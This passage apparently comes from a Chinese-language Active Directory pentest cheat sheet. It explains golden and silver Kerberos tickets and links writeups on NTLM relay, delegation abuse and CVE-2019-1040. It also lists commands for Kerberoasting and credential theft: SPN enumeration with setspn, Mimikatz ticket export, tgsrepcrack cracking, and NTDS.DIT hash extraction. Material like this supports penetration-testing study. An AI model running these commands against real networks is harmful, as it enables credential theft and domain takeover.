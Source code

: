 #####  Kerberos的银票务
黄金票据和白银票据的一些区别：
Golden Ticket：伪造`TGT`，可以获取`任何Kerberos`服务权限
银票：伪造TGS，`只能访问指定的服务`
加密方式不同：
Golden Ticket由`krbtgt`的hash加密
Silver Ticket由`服务账号`（通常为计算机账户）Hash加密
认证流程不同：
金票在使用的过程需要同域控通信
银票在使用的过程不需要同域控通信
相关阅读 :
* [攻击者如何使用Kerberos的银票来利用系统](https://adsecurity.org/?p=2011) 
* [域渗透——Pass The Ticket](https://www.feiworks.com/wy/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Pass%20The%20Ticket.pdf)

##### 域服务账号破解 
与上面SPN扫描类似的原理
https://github.com/nidem/kerberoast
获取所有用作SPN的帐户
```
setspn -T PENTEST.com -Q */*
```
从Mimikatz的RAM中提取获得的门票
```
kerberos::list /export
```
用rgsrepcrack破解
```
tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```
##### 凭证盗窃 
从搜集的密码里面找管理员的密码 

##### NTLM relay
 * [One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
 * [privexchange](https://github.com/dirkjanm/privexchange/)
 * [Exchange2domain](https://github.com/ridter/exchange2domain)

##### Kerberos委派
 * [Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
 * [s4u2pwnage](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
 * [Attacking Kerberos Delegation](https://xz.aliyun.com/t/2931)
 * [用打印服务获取域控](https://adsecurity.org/?p=4056)
 * [Computer Takeover](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
 * [Combining NTLM Relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
 * [CVE-2019-1040](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/)

##### 地址解析协议 
实在搞不定再搞ARP 
​    
#### 获取AD哈希 
* 使用VSS卷影副本 
* Ntdsutil中获取NTDS.DIT​​文件 
* PowerShell中提取NTDS.DIT -->[Invoke-NinaCopy ](https://github.com/clymb3r/PowerShell/tree/master/Invoke-NinjaCopy)
* 使用Mimikatz提取 
